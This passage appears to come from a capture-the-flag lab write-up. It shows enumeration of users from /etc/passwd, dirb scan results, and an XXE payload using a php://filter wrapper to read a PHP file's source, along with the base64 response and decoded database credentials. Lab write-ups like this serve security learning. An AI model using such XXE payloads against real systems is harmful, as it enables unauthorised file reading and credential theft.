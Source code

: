 ```bash
cat response.html | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
development:x:1000:1000:Development:/home/development:/bin/bash
```

Besides root, there is only one user and he goes by the name **development**.

Before proceeding, I checked if dirb has found anything.
```
(...)
---- Scanning URL: http://10.10.11.100/ ----
+ http://10.10.11.100/db.php (CODE:200|SIZE:0)
+ http://10.10.11.100/index.php (CODE:200|SIZE:25169)
+ http://10.10.11.100/portal.php (CODE:200|SIZE:125)
```

Here are the results. I've already seen index.php and portal.php, but that db.php was new and interesting.

I used the following payload from the same payload list to try to read the source code of that file.

**Request:**
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php">]>
<bugreport>
<title>&xxe;</title>
<cwe>CWE-100</cwe>
<cvss>8</cvss>
<reward>3000</reward>
</bugreport>
```
**Response:**
```html
(...)
If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>PD9waHAKLy8gVE9ETyAtPiBJbXBsZW1lbnQgbG9naW4gc3lzdGVtIHdpdGggdGhlIGRhdGFiYXNlLgokZGJzZXJ2ZXIgPSAibG9jYWxob3N0IjsKJGRibmFtZSA9ICJib3VudHkiOwokZGJ1c2VybmFtZSA9ICJhZG1pbiI7CiRkYnBhc3N3b3JkID0gIm0xOVJvQVUwaFA0MUExc1RzcTZLIjsKJHRlc3R1c2VyID0gInRlc3QiOwo/Pgo=</td>
(...)
```
Decoding the base64 string returned this PHP code:

```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```
